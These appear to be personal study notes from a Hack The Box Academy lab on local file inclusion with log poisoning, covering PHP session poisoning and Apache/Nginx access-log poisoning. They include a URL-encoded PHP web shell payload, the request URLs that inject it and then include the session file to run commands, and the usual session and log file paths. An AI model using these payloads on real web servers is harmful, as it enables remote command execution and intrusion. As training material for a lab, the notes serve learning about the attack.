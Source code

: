 
https://academy.hackthebox.com/module/23/section/252

>We have seen in previous sections that if we include any file that contains PHP code, it will get executed, as long as the vulnerable function has the `Execute` privileges

the goal:
Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|
## PHP Session Poisoning
Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows. The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a `PHPSESSID` cookie set to our session:
![[3ymxv3c9.png]]

```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`.

>However, the `page` value is under our control, as we can control it through the `?language=` parameter.


test:
`?language=session_poisoning`
```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
check:
```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![Shipping containers and cranes at a port with PHP notice about an undefined variable.](https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png)
the session file contains `session_poisoning` instead of `es.php` <>confirms

poisoning:
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
`&cmd=id` to execute a commands:
```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```



>Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.



## Server Log Poisoning
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

>Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have read-access over the logs.

---
>`Nginx` logs are readable by low privileged users by default (e.g. `www-data`), while the `Apache` logs are only readable by users with high privileges (e.g. `root`/`adm` groups).
However, in older or misconfigured `Apache` servers, these logs may be readable by low-privileged users.
----

#### `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows,
However, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations, as will be discussed in the next section.

#### `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.
However, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations, as will be discussed in the next section.

### test
```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```
we can read the log ?  if yes <> confirmed

As mentioned earlier, the `User-Agent` header is controlled by us through the HTTP request headers, so we should be able to poison this value.

PHPSESSID <>  mptsq9hkmrrnrsi1ptgda5kgag

```url
%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
/var/lib/php/sessions/sess_mptsq9hkmrrnrsi1ptgda5kgag&cmd=



c85ee5082f4c723ace6c0796e3a3db09.txt 